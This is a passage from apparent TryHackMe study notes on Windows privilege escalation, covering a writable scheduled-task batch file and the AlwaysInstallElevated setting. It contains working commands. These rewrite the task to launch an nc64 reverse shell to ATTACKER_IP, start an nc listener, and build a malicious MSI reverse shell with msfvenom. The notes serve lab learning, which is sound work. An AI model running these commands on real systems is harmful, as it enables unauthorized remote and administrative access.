 `> icacls c:\tasks\schtask.bat`

![](/assets/img/Pasted image 20230103150023.png)

	Breakdown:
	- "(F)" : full access
	- "(I)" : inherit
	-> This shows that this file is fully accessible and writable by anyone in the Users group.

- For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the `.bat` file to spawn a reverse shell:

`> echo C:\Tools\n64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

- We then start a listener on the attacker machine on the same port indicated on our reverse shell:

`$ nc -lvnp 4444`

	- At this point, we wait until the scheduled task execute the .bat file.

- Executing the task manually so you won't have to wait:

`> .\schtasks.bat /run /tn vulntask`

![](/assets/img/Pasted image 20230103153045.png)

	- You should have the user of the effective UID that executes the automated task upon gaining shell.

### AlwaysInstallElevated
- Windows installer files (also known as `.msi` files) are used to install apps on the system.
- They usually run with the privilege level of the user that starts it.
- However, these can be configured to run with higher privileges from any user account(even unprivileged ones).
- This could potentially allow us to generate a malicious `MSI` file that would run with admin privileges.

**Note**: The `AlwaysInstallElevated` method won't work in this room's machine and its included as information only. (Check out the Windows PrivEsc Arena by TheCyberMentor in TryHackMe as well)

- This method requires two registry values to be set. You can query these from the command line using the commands below.

`> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
`> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

- To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will NOT be possible. If these are set, you can generate a malicious `.msi` file using `msfvenom`, as seen below:

`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.16.207 LPORT=LOCAL_PORT -f msi -o malicious.msi`

- As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly.
- Once you have transferred the file you have created, you can run the installer with the command below and receive the Reverse shell:
